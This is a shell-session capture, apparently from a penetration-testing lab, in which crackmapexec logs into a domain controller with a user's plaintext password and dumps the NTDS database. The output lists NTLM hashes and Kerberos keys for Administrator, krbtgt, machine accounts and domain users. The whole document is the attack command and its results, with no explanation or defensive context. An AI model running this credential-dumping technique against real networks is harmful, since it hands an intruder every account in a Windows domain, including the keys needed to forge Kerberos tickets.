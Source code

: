 ```shell-session
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds

SMB         10.129.201.57    445     DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57    445     DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
SMB         10.129.201.57    445     DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.201.57    445     DC01           Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.201.57    445     DC01           DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
SMB         10.129.201.57    445     DC01           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
SMB         10.129.201.57    445     DC01           WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
SMB         10.129.201.57    445     DC01           WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
SMB         10.129.201.57    445     DC01           WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
SMB         10.129.201.57    445     DC01           WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
SMB         10.129.201.57    445     DC01           WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
SMB         10.129.201.57    445     DC01           Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
SMB         10.129.201.57    445     DC01           Administrator:des-cbc-md5:618c1c5ef780cde3
SMB         10.129.201.57    445     DC01           DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
SMB         10.129.201.57    445     DC01           DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
SMB         10.129.201.57    445     DC01           DC01$:des-cbc-md5:a2852362e50eae92
SMB         10.129.201.57    445     DC01           krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
SMB         10.129.201.57    445     DC01           krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
SMB         10.129.201.57    445     DC01           krbtgt:des-cbc-md5:9bd5017fdcea8fae
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
```